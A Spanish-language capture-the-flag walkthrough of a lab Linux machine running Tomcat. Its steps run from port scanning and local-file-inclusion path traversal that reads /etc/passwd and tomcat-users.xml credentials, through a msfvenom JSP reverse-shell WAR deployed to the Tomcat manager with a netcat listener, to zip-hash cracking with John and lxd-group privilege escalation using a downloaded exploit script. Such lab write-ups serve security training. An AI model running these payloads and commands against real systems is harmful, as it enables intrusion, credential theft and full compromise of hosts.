 ## Summary

Tags: #Linux #HTTP #SSH #Tomcat #LFI #DirectoryPathTraversal #Msfvenom #Base64 #John #GruposExpeciales #Lxd

- IP -> 10.10.10.194
- Ports -> TCP (80, 22, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4
    - 80 -> Apache httpd 2.4.41
    - 8080 -> Apache Tomcat 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

22 ->    OpenSSH 8.2p1 Ubuntu 4 -> Focal
80 ->    Apache httpd 2.4.41 -> Focal 

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,80,8080 ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

Ahora nos disponemos a ver en la web por ambos puertos, el 80 y el 8080.

* En el puerto 80 de la pagina encontramos dentro la web una pestaña llamada "NEWS" en donde no podemos ingresar ya que esta haciendo virtual hosting. Por lo que debemos de agregar el dominio a nuestro **/etc/hosts** 

Dentro de NEWS observamos lo siguiente en la url:
```python
❯ megahosting.htb/news.php?file=statement

# Ahi podemos observar que hay un '?file=' que nos puede llevar a un LFI (Local File Inclusion), por lo que probamos lo siguiente en la URL

❯ megahosting.htb/news.php?file=/../../../../../etc/passwd       # Hacemos un Directory Path Traversal para ver el /etc/host de la maquina victima, si se ve raro el output hacemos 'Ctrl + u'

# Podemos observar dos usuarios, el primero es 'root' y el segundo 'ash', por lo que nos disponemos a ver si podemos ver mas cosas como:
❯ megahosting.htb/news.php?file=/../../../../../home/ash/user.txt
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/authorized_keys
❯ megahosting.htb/news.php?file=/../../../../../home/ash/.ssh/id_rsa.pub
# Pero no podemos mirar nada de los comandos anteriores 
```

* Miramos que en el puerto 8080 encontramos un Tomcat y nos muestra donde nos da un enlace a **manager webapp**, nos pide un usuario y una passwd. Colocamos las clásicas **admin:admin**, nos dará un error pero nos redireccionara a una nueva pagina.
	
	* Encontramos una ruta: **/etc/tomcat9/tomcat-user.xml**

Miramos esa ruta por el puerto 80, ya que podemos hacer usar el **Directory Path Traversal** y encontramos lo siguiente:
Como no nos muestra nada, nos disponemos a buscar en Google 'Tomcat User Common Path ' , ya que no siempre esa es la ruta de un Tomcat9, ahora encontramos esta nueva ruta: 
	**/usr/share/tomcat9/etc/tomcat-users.xml** 

Miramos esa ruta en la web por el puerto 80 con el **Directory Path Traversal** y encontramos:
	**User: tomcat | Passwd: $3cureP4s5w0rd123!**

Recordemos la ruta típica de Tomcat en la web para poder entrar es: **/manager/html** en donde nos pedirá una autenticación, y como ya tenemos el usuario y la passwd la colocamos en el panel y así lograremos entrar. Pero no sucede. 

Ahora vamos a Google y buscaremos '**Tomcat Exploit Variant**' 
* [Tomcat-Variant](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
Ahí encontramos una imagen que nos dice como ir al panel de manager desde la web ( **/host-manager/html** ). Pero al momento de entrar observamos que no esta la opción para poder subir un archivo y así podernos crear una aplicación maliciosa. 

Ahora nos disponemos a mirar la ruta de las aplicaciones en Tomcat. 
```bash 
❯ curl -s -u 'tomcat:$3cureP4s5w0rd123!' -X GET 'http://10.10.10.194:8080/manager/text/list'         # Ruta para mirar las aplicaciones existentes en Tomcat, pero antes debemos de autenticarnos

	# u = Usuario:Passwd
```

Cuando miremos que no podemos instalar una aplicación desde la web en la parte de manager ( **/host-manager/html** ), lo podemos hacer desde consola de la siguiente manera con Msfvenom:
```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

Una vez obtenido el archivo. war que seria la 'aplicación' la podemos colocar en la siguiente ruta con curl
* [Tomcat-deploy-war](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script)

Esto se hará por el método POST.
```bash 
❯ curl -s -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/reverse" --upload-file reverse.war
```

Nos ponemos en escucha
```bash
❯ nc -nlvp 443 
```

Para poder ejecutar la aplicación que subimos, debemos de ir a la web y colocar lo siguiente:
```python
http://10.10.10.194:8080/reverse                      # Colocaremos lo siguiente en la url de la web, reverse = Nombre de la app que subimos (archivo .war)
```

## User

Una vez dentro, hacemos tratamiento de la consola. 

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

```bash
❯ whoami                                     # Miramos el nombre del usuario que en este caso es tomcat
```

Debemos de buscar la manera de convertirnos en el usuario 'ash' aplicando un **User Pivoting**

```python
/var/www/html                  # Ruta donde se encuentra el servidor web montado, ahi encontramos un dir llamado 'files'
```

Dentro de 'files' encontraremos un archivo **16162020_backup.zip** el cual nos lo traeremos a nuestra maquina victima haciéndole un base64 para poderlo transferir.
```python 
❯ base64 16162020_backup.zip   # Codificamos el archivo .zip en base64 para poderlo copiar a nuestra maquina de atacante y ahi poder hacerle el unzip 
```

En nuestra maquina de atacante creamos un archivo y en el depositamos el resultado del comando anterior. 
Después decodificaremos el archivo ya que su contenido esta en base64. 
```bash
❯ cat data | base64 -d | sponge data.zip      # Decodificaremos el archivo que hemos creado, y con sponge colocaremos la decodificacion en el mismo archivo 
```

```python 
❯ unzip data.zip                              # Para unzipear el archivo 

# Pero nos pide una passwd
```

Para poder obtener la hash del archivo la crackearemos con John The Ripper y después de obtener el hash, se lo pasaremos para poder obtener la passwd.
```bash
❯ zip2john data.zip > hash                      # Para que nos devuelva el Hash y asi despues poderlo crackear, el resultado lo metemos dentro de un archivo llamado 'hash'

❯ jhon -w:/usr/share/wordlists/rockyou.txt hash # Usando jhon y el diccionario rockyou, romperemos el hash obtenido anteriormente

# Nos regresa como passwd = admin@it
```

Abrimos el archivo data.zip con la passwd obtenida. Nos extrae una carpeta **var** en la cual  obtenemos varios archivos, pero ninguno es relevante. 

Probamos la passwd obtenida en la maquina victima para ver si nos podemos cambiar al usuario ash.
```bash 
❯ su ash                                        # Cambiamos al usuario ash y le colocamos la passwd que hemos encontrado 
```

Ahora nos podemos meter a su directorio personal y así poder ver la primera flag 'user.txt'



## Root

Miramos si podemos ejecutar un comando por los privilegios en el Sudoers.
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```

```bash
❯ id                                               # Para ver si estamos en un grupo especial

# Pertenecemos al grupo lxd, por lo que hacemos lo siguiente para poder hacer la escalada

	# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
		
		❯ searchsploit lxd
		❯ searchsploit -m 46978.sh 
		# Descargas la imagen de Alpine, la url esta dentro del script 
		❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
```

Nos lo transferimos con un servidor por el puerto 80.
```bash 
❯ python3 -m htt.server 80              # Nos creamos un servidor para tranferir 
```


En la maquina victima nos dirigimos al directorio **/tmp/ o /dev/shm/** ya que cuenta con privilegio de lectura y escritura. Una vez dentro de ese dir, hacemos lo siguiente:
```bash 
❯ wget http://10.10.14.5/lxd_privesc.sh
❯ wget http://10.10.14.5/alpine-v3.17-x86_64.tar.gz
```

En la maquina victima ejecutamos lo siguiente:
```bash
❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor que llevara la raiz de la maquina victima, la raiz del maquina victima la encontraremo en el dir /mnt/root/
❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
❯ ls -l /bin/bash              # Listar los permisos de la bash
❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
```

Antes de ejecutar lo anterior ver que lxd exista en la maquina victima, si no esta es porque tal vez el Path sea muy pequeño, por lo que exportaremos el Path de nuestra maquina de atacante. 
